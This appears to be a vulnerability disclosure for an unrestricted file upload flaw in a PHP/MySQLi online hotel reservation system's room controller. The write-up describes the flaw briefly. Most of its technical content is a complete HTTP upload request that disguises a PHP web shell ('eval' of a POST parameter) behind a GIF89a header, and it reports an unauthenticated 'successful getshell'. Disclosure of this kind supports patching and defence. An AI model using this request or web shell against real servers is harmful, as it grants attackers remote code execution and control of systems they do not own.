




### Source code

[Online Hotel Reservation System in PHP/MySQLi with Source Code | SourceCodester](https://www.sourcecodester.com/php/13492/online-hotel-reservation-system-phpmysqli.html)


### Description

A high risk vulnerability was found in Online Hotel Reservation System, affecting the upload function of /marimar/admin/mod_room/controller.php file. The bypass detection operation of image parameter resulted in unlimited file upload. Attacks can be launched remotely


### Analysis vulnerability

`marimar\admin\mod_room\controller.php`



After the file is uploaded, the `$image_name` variable changes the file name to the current year, month, and day, then adds `_` and the uploaded file name

The vulnerability lies in the `$image_size` variable, which detects whether it is an image file, and otherwise disables uploading. So all we have to do is add the header of the image in front of the injected malicious file to bypass detection


### Recurrent vulnerability

```
POST http://localhost/marimar/admin/mod_room/controller.php?action=add HTTP/1.1
Host: 
Content-Length: 895
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAQkzg4xV416LmyFO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.167.168/marimar/admin/mod_room/index.php?view=add
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=
Connection: keep-alive

------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="ROOM"

test
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="ACCOMID"

12
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="ROOMDESC"

123123
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="NUMPERSON"

4
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="PRICE"

112
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="ROOMNUM"

1
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="image"; filename="shell.php"
Content-Type: image/png

GIF89a

<?php eval($_POST['k1nako']);?>
------WebKitFormBoundaryAQkzg4xV416LmyFO
Content-Disposition: form-data; name="save"


------WebKitFormBoundaryAQkzg4xV416LmyFO--

```

The malicious code was preceded by GIF89a disguised as a gif, Construct the upload packet, and you can see that the cookie is deleted, indicating that the system does not have authentication and can remotely launch attacks



Although it was a warning, the file was uploaded successfully, and the file name was inferred based on the current time of 2024/10/25 21:55





Successful getshell